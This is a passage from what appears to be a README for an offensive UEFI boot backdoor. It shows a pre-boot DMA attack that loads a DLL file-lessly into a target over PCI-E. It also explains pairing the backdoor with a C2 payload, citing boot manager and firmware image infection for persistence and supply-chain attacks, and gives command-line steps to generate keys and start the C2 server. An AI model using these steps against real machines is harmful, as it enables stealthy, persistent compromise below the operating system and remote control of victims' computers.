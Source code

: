 ```
$ ./uefi_backdoor_boot_shell.py --attach --load some_libray.dll
[+] PCI-E link with target is up
[+] Device address is 01:00.0
[+] Payload shared memory region is at 0x00200000
[+] Loading image file some_libray.dll to the target...
[+] Image was successfully loaded
```

Specified file will be loaded by DMA Shell in file-less way using reflective loader without dropping of any artifacts on the disk.


## Using boot backdoor with Micro Backdoor payload

[Micro Backdoor](https://github.com/Cr4sh/MicroBackdoor) is a simple C2 tool with client and server, it provides basic features like console commands execution and files transfer, it has convenient web interface and small footprint. It was designed to be minimalistic and easy customizable, I'm using it mostly for demonstration purposes as payload for my firmware rootkits and various low level persistence techniques. It's more suitable to use Micro Backdoor payload while deploying Boot Backdoor with [Windows boot manager image file infection](#deploying-the-backdoor-using-windows-boot-manager-infection) (for persistence) or with [firmware flash image infection](#deploying-the-backdoor-using-firmware-flash-image-infection) (as part of the supply chain attack), but in this example it will be shown how to use it for pre-boot DMA attacks just like in previous example with DMA Shell.  

First of all, you need to generate RSA key pair used for secure communication between Micro Backdoor client and server:

```
$ cd server
$ ./server.py --keys

Generating "/opt/MicroBackdoor/server/server.key" and "/opt/MicroBackdoor/server/server.crt"
Generating a 2048 bit RSA private key
..................+++
....................+++
writing new private key to '/opt/MicroBackdoor/server/server.key'
-----
```

Then you have to edit `server/config.py` file with various server options, don't forget to change default login and password for accessing its web interface.  

Start the server, you also can use use `--daemon` command line option to run it in the background:

```
$ ./server.py
[05/01/21 03:50:00 AM]: Log file path is "/Users/d_olex/tc/_PoC/MicroBackdoor/server/server.log"
[05/01/21 03:50:00 AM]: Starting backdoor server at address 0.0.0.0:28115
[05/01/21 03:50:00 AM]: server.py PID = 59724, PGID = 59724
[01/May/2021:03:50:00] ENGINE Bus STARTING
[01/May/2021:03:50:00] ENGINE Started monitor thread 'Autoreloader'.
[01/May/2021:03:50:01] ENGINE Serving on http://0.0.0.0:24416
[01/May/2021:03:50:01] ENGINE Bus STARTED
```
